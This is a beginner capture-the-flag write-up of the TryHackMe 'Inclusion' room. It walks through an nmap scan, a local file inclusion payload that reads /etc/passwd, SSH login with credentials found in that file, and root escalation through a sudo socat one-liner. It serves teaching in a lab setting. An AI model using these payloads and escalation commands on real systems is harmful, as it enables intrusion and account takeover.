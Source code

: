 ```yaml
---
title: "Inclusion - TryHackMe"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2021-07-29
description: "This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability."
tags: [Write-Ups]
---
```


This is a room best for beginners to understand and exploit LFI Vulnerabilty. If you want to follow along, You can join the room here, [Inclusion](https://tryhackme.com/room/inclusion) 

## Enumeration:
\
First of all I ran the NMAP scan and found 2 ports open. Here's what I found:

```
└─$ nmap -A 10.10.186.213 -p- -vvv               
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 20:54 PKT
Nmap scan report for 10.10.186.213 (10.10.186.213)
Host is up (0.28s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.28 seconds
```
\
\
Okay so port 80 is open for http. Before I go and manually look, lets fire up dirsearch. Dirsearch did not find anything. But in my enumeration of the website, I found it to be vulnerable to LFI.

The parameter
> article?name=

was vulnerable to LFI.
## Exploitation
\
I tried reading the /etc/passwd file and I could see the contents.

> http://10.10.186.213/article?name=../../../../../../../../../../etc/passwd

It returned this:


```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```


And there was a comment in the /etc/passwd file.

> falconfeast:rootpasswd

This looks like credentials, so lets use them for SSH into Falconfeast.

And it worked!

We're in Falconfeast. The "user.txt" file is right in the home directory:
```
609************
```
\
And the first thing we do is run the command:
\
\
sudo -l
\
\
and we get:
```
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
\
We know that we can escalate privileges to root using SOCAT. So go over to GTFOBINS and search for SOCAT. We found this:

> sudo socat stdin exec:/bin/sh

We use this and BOOM! We are ROOT!
Root flag:
```
429********
```
\
Let me know if you like it or would like to let me know something from the contact links below ; )